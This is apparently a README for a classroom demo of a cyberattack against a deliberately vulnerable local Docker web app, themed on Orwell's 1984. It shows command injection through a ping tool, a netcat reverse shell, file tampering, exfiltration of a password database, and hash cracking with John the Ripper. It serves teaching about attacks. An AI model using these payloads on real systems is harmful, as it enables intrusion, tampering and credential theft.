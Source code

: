 # 1984 Hacked
## Anatomy of a Cyberattack

This project is the companion demonstration for a talk I gave at Columbia University. Follow the steps
below to perform the demonstration at your own pace.

These instructions were initially created and verified on macOS. Support for additional operating systems
will be added later. 
Please open an issue or PR if you encounter a mistake.

# Disclaimer
This enviroment is for demonstration purposes ONLY. This should not be run in any sort of production environment and ideally, in a closed environment without internet access. This environment is vulnerable, so any system running it therefore becomes vulnerable.

## Required Software
1. [Docker](https://docs.docker.com/desktop/install/mac-install/)
2. [John the Ripper](https://formulae.brew.sh/formula/john)


## Initial Setup
1. Open the Terminal app.
2. Clone this project. `git clone https://github.com/jonmannn/1984-hacked.git`
3. Navigate into the project folder. `cd 1984-hacked`
2. Clear your existing John The Ripper data. `rm ~/.john/john.pot` (This makes repeat demonstrations possible)
3. Build the Docker container. `docker build . -t 1984-hacked`
4. Run the Docker container. `docker run -it -p 8888:8888 1984-hacked`
5. Minimize this terminal and ignore it until you're finished.

## Demonstration
### Exploitation
1. Navigate to the target webpage in a web browser. `http://127.0.0.1:8888` (Note: screenshots include the target domain but are fabricated via modification of /etc/hosts. See this [guide](https://kinsta.com/knowledgebase/edit-mac-hosts-file/) for more details
2. Login with the stolen credentials:
```
Username: winston.smith@newspeakprinting.com
Password: Julia1984!
```
3. Test the ping tool using an arbitrary IP address like `1.1.1.1` (Cloudflare) or `8.8.8.8` (Google). ![](assets/ping.png)
4. Perform command injection. `1.1.1.1 && whoami` ![](assets/command-injection.png)

### Installation
1. Open another Terminal window.
2. Start a netcat listener. `nc -v -l 4444`
3. Send a shell from the exploited webserver. `1.1.1.1 &&nc <your-ip-address> 4444 -e /bin/bash -vvv`
   ![](assets/netcat-png.png)
(Note: You won't receive feedback from your Netcat listener, after waiting a few moments you can test a simple command like `ls` to ensure you can execute commands.)

### Command and Control
1. With your new access, look around the directory structure. You should
discover that there is a script to print newspapers at `/apps/print_newspaper.py` and that it prints files stored
in `/readyForPressing/`
![](assets/print_newspaper.png)
2. This can be weaponized by modifying the contents of one of the articles stored in `/readyForPressing/`
3. For example, we can replace the adversary name with `Eastasia` in the article titled `Eurasia's Intentions Exposed` with `sed -i ‘s/Eurasia/Eastasia/g’ Front_Page.txt`

### Act On Objectives
1. Locate password database in `/web_auth/users.db`
2. In a new terminal window, open a Netcat listener that writes to a file `nc -v -l 5555 > users.db`
3. In the initial terminal window, upload the file to our new Netcat listener. ![](assets/upload.png)
4. Wait a few moments, as you won't receive any feedback. But since this is a small text file, it shouldn't take more than a few seconds. Then press CTRL + C to exit the Netcat listener.
5. Validate your download on the new terminal window with `cat users.db`
![](assets/users-db-validate.png)
6. Now, we can use John the Ripper to try and crack the passwords. We'll be trying all of the password combinations in the provided wordlist (`wordlist.txt`) in the repository.
7. Run John the Ripper `john --wordlist=path/to/wordlist.txt --format=bcrypt users.db`
![](assets/cracked.png)

## Cleanup
1. Reopen the Terminal window used to run Docker commands. Press CTRL + C to terminate the container.
